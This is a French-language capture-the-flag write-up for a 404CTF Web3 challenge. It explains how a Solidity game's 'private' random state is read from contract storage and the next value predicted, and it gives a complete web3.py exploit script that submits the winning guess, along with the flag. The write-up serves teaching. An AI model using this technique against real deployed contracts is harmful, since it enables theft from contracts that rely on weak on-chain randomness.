

# Write-Up 404-CTF : La Folie du jeu : descente aux enfers 

__Catégorie :__ Web3 - Facile

**Enoncé :**



**Fichiers :** Jeu.sol

**Résolution :**

Pour ce challenge, nous avons un contrat Solidity nous présentant un jeu.  
A l'initialisation de ce jeu, la propriété `currentState` est initialisé avec un entier `_start`. Ensuite, le joueur doit deviner le prochain état pour gagner.  

Le programme est conçu de sorte à ce qu'on ne puisse pas accéder directement à la variable `currentState` qui a une visibilité privée. Cependant, dans la blockchain, rien n'est vraiment privé. Grâce à l'API de la blockchain Ethreum, nous pouvons accéder à la mémoire d'un contrat grâce à la fonction `get_storage_at`.  
En utilisant un programme Python permettant d'interagir avec la blockchain, nous pouvons récupérer la valeur des paramètres puis lancer une transaction en appelant la fonction `guess`.

Le programme nécessite tout de même un poert-feuille (wallet) sur la blockchain Ethreum du CTF (l'extension MetaMask permet d'avoir ce wallet gratuitement).  
Il est aussi nécessaire de compiler le contrat Solidity pour obtenir son abi. Le compilateur en ligne [Remix](https://remix.ethereum.org) fait l'affaire. Attention à choisir la bonne version du compilateur et de n'extraire que l'abi. 

```python
# script.py
from web3 import Web3, HTTPProvider
import json

w3 = Web3(HTTPProvider('https://blockchain.challenges.404ctf.fr/'))

contract_address = # Adresse donnée par le serveur lors du déploiement
my_acc_address = # Id de compte (MetaMask)
private_key = # Clé privée du compte (MetaMask)
nonce = w3.eth.get_transaction_count(my_acc_address)

with open('abi_jeu.json') as f:
    abi = json.load(f)

jeu = w3.eth.contract(address=contract_address, abi=abi)

print(w3.eth.get_storage_at(contract_address, 0))

m = int.from_bytes(w3.eth.get_storage_at(contract_address, 1), 'big')
a = int.from_bytes(w3.eth.get_storage_at(contract_address, 2), 'big')
c = int.from_bytes(w3.eth.get_storage_at(contract_address, 3), 'big')
currentState = int.from_bytes(w3.eth.get_storage_at(contract_address, 4), 'big')

print(f'a = {a}\nc = {c}\nm = {m}\ncurrent_state = {currentState}')

next_state = (a * currentState + c) % m
print(next_state)

chainId = w3.eth.chain_id
call_func = jeu.functions.guess(next_state).build_transaction({
    "chainId": chainId,
    "from": my_acc_address, 
    "nonce": nonce,
    "gasPrice": w3.eth.gas_price
})

signed_tx = w3.eth.account.sign_transaction(call_func, private_key=private_key)
send_tx = w3.eth.send_raw_transaction(signed_tx.rawTransaction)

tx_receipt = w3.eth.wait_for_transaction_receipt(send_tx)
print(tx_receipt)
```

Il ne reste plus qu'à aller vérifier sur le serveur que le jeu est bien résolu pour avoir le flag.

**Flag :** `404CTF{r4Nd0Mn3ss_1S_NOt_s0_345y}`